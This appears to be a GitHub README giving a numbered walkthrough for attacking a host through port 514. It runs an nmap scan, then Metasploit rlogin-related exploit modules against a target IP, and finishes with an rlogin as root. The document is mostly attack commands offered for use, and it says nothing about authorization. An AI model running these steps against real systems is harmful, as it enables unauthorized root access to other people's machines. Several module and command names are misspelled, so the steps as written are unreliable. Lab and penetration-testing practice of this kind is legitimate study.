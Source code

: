 # Port-514-tcpwrapped

![image](https://github.com/thanawut2903/Port-514-tcpwrapped/assets/159118913/52ccff71-706a-4844-a148-626790310dd8)

1.nmap -sV (target ip)

2.msfconsole 

3.msf 6 > search rlogin

4.msf 6 > use exploit/windows/brighstor/lgserver_rxrlogin

5.msf 6 > show options

![image](https://github.com/thanawut2903/Port-514-tcpwrapped/assets/159118913/a7da8010-0a33-4f95-b05a-3b9e9856c989)

6.msf 6 > set RHOST (target ip)

7.msf 6 > show target

8.msf 6 > run

9.msf 6 > use exploit/windows/http/solarwids_fsmuserlogin

![image](https://github.com/thanawut2903/Port-514-tcpwrapped/assets/159118913/9ae7b31c-2e51-4ab7-a7ce-9306ea3eb111)

10.msf 6 > set RHOST (target ip)

11.msf 6 > set vhost (target ip)

12.msf 6 > showtarget

13.msf 6 > run

![image](https://github.com/thanawut2903/Port-514-tcpwrapped/assets/159118913/93024b18-cb7a-44b4-a56e-e8549ff8d69d)

14.rlogin -l root (target ip)

![image](https://github.com/thanawut2903/Port-514-tcpwrapped/assets/159118913/e55b5edc-3797-4845-b528-ea837ce365ac)

Reference form : https://www.youtube.com/watch?v=zyILGFWvAVs&t=819s

